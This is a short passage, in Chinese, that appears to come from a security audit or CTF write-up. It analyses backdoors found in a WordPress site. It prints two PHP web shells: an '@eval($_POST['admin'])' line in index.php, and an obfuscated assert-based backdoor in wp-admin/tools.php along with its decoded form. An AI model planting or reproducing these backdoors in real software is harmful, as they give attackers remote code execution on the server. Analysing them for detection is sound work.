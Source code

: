 然后看了下`index.php`确实存在后门

![](image/25.png)

漏洞出现的地方在:

```php
@eval($_POST['admin']);
```

#### 命令执行

文件路径：

> wp-admin/tools.php

漏洞出现的地方在:

![](image/27.png)

```php
/** WordPress Administration Bootstrap */
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; @$poc_2($_POST['_']);
```

非常容易能看出

```php
@assert($_POST['_']);
```

